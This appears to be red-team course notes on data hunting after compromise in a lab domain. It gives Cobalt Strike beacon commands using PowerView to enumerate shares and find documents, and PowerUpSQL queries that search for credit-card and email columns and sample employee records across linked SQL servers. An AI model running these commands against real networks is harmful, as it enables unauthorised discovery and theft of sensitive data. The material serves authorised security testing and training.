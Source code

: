# Data Hunting & Exfiltration

Orgs store data in file shares, databases, SharePoint, internal wiki's, etc. A red teamer's job is to find the "objective" of the op and _prove access_ to your client. Do not actually copy or move sensitive data out of its location, especially in regulated environments.

When planning the assessment, a good strategy to suggest is to create a dummy data repository that is subject to all the same security controls but doesn't actually contain any real data (fake or obfuscate it). That data can be generated by you or the client and is safe to remove from the environment. Otherwise, you can prove access to real data, but carry out an exfiltration exercise with dummy data.

Exfiltration exercises are an important step to gauge how effectively an organisation can detect and respond to their sensitive data being removed.

## File Shares

Find-DomainShare in PowerView searches for computer shares on the domain. The -CheckShareAccess parameter only shows that shares the current user has read access to.

    beacon> powershell Find-DomainShare -CheckShareAccess

Find-InterestingDomainShareFile searches each share for specified strings in the path:

    beacon> powershell Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt*

Show the first ew lines of a file:

    beacon> powershell gc \\fs.dev.cyberbotic.io\finance$\export.csv | select -first 5


## Databases

PowerUpSQL provides various cmdlets for data searching and extraction.

1: Get-SQLColumnSampleDataThreaded searches one or more instances for databases that contain particular keywords in the column names (but only the instances you have direct access to):

    beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "email,address,credit,card" -SampleSize 5 | select instance, database, column, sample | ft -autosize

2: To traverse SQL links for the search use Get-SQLQuery:

    beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"

3: Note the "employees" table. Next, list its columns:

    beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select column_name from master.information_schema.columns where table_name=''employees''')"

4: Take a data sample:

    beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 first_name,gender,sort_code from master.dbo.employees')"

If this is real data, don't extract multiple columns that can be correlated together. As in this example, take a sample of a column that doesn't really mean anything in isolation. To simulate data exfiltration of large dataset, have a look at [Egress Assess](https://github.com/FortyNorthSecurity/Egress-Assess).
